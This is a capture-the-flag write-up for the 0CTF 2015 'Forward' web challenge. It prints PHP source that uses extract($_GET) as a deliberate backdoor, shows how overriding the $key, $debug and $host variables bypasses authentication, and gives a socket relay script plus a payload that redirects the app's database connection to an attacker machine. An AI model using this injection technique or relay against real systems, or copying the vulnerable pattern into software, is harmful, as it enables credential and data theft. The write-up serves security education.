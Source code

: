 # 0CTF 2015 Quals CTF: Forward

**Category:** Web
**Points:** 250
**Solves:** 42
**Description:** 

> Just do it!
>
> <http://202.112.28.121/>
>
> <http://202.112.26.104/>

___

## Write-up

This task is a web task worth 250 points from the 0CTF 2015.
There is an input field, and two buttons : Login and FLAG.<br>
FLAG gives us the source code of the task, without the db credentials :

```php
<?php
    if (isset($_GET['view-source'])) {
        show_source(__FILE__);
        exit();
    }
    include("./inc.php"); // key & database config
 
    function err($str){ die("<script>alert(\"$str\");window.location.href='./';</script>"); }
 
    $nonce = mt_rand();
 
    extract($_GET); // this is my backdoor
     
    if (empty($_POST['key'])) {
 
        err("Parameter Missing!");
    }
 
    if ($_POST['key'] !== $key) {
        err("You Are Not Authorized!");
    }
 
    $conn = mysql_connect($host, $user, $pass);
 
    if (!$conn) {
        err("Database Error, Please Contact with GameMaster!");
    }
 
    $query = isset($_POST['query']) ? bin2hex($_POST['query']) : "SELECT flag FROM forward.flag";
    $res = mysql_query($query);
    if (FALSE == $res) {
        err("Database Error, Please Contact with GameMaster!");
    }
 
    $row = mysql_fetch_array($res);
 
    if ($debug) {
        echo "HOST:\t{$host}<br/>";
        echo "USER:\t{$user}<br/>";
    }
 
    echo "<del>FLAG:\t0ctf{</del>" . sha1($nonce . md5($row['flag'])) . "<del>}</del><br/>"; // not real flag
 
    mysql_close($conn);
?>
```
<br><br>
At this point, I was a bit sad, because I wanted to get the flag. :(<br>
After reading the source code, we can guess that we need to get our hands on $row['flag'].

There is also a HUGE hint : `this is my backdoor`.<br>
`extract` extracts variable from an array to the current scope.<br>
Exemple : extract(['foo' => 'bar']); is the same as $foo = 'bar';

We can use it to bypass the first check :
if `$_GET['key']` is set, `$key` will be set to it. (hence the backdoor)

Our first thought is that we can also use it to set nonce to '', so that the page outputs `sha1(md5($flag));`.<br>
This is pointless : we need to reverse a SHA1, then a MD5, and it would take forever.

We can set `$_GET['debug']` to 1, to gather informations about db host, and user :
```
HOST: 202.112.28.121
USER: forward
```
<br><br>
With `nc -vv 202.112.28.121 3306`, we can see the version of MySQL, and that it DOES accept connection from outside.<br>
We have no way to retrieve the password from the script. But we know that the script retrieves the flag.

Interesting thing :
`extract` is called after $host, $user and $pass definitions. It means we can also alter them.

I then made a script to set up a man-in-the-middle attack:<br>
- The web page (client) connects to my computer.<br>
- My computer connects to the MySQL server (server).<br>
- As soon as I read something on one of the sockets, I forward it to the other peer.

Here is the code :
```php
<?php
    $socket = socket_create(2, 1, 0);
    socket_bind($socket, 0, 3306);
    socket_listen($socket);
 
    $client = socket_accept($socket);
 
    $server = socket_create(2, 1, 0);
    socket_connect($server, '202.112.28.121', 3306);
 
    socket_set_nonblock($client);
    socket_set_nonblock($server);
 
    while(true) {
        $packet = socket_read($server, 4096);
        if($packet) {
            printf("S->C: %s\n", $packet);
            socket_write($client, $packet);
        }
 
        $packet = socket_read($client, 4096);
        if($packet) {
            printf("S<-C: %s\n", $packet);
            socket_write($server, $packet);
        }
        usleep(1e4);
    }
?>
```
<br><br>
This way, I managed to get the flag :

`Payload: /admin.php?key=a&debug=1&host=[ip], POST: key=a`
<br><br>
__Flag__: 0ctf{w3ll_d0ne_guY}
<br><br>
Enjoy !
- [XeR]()
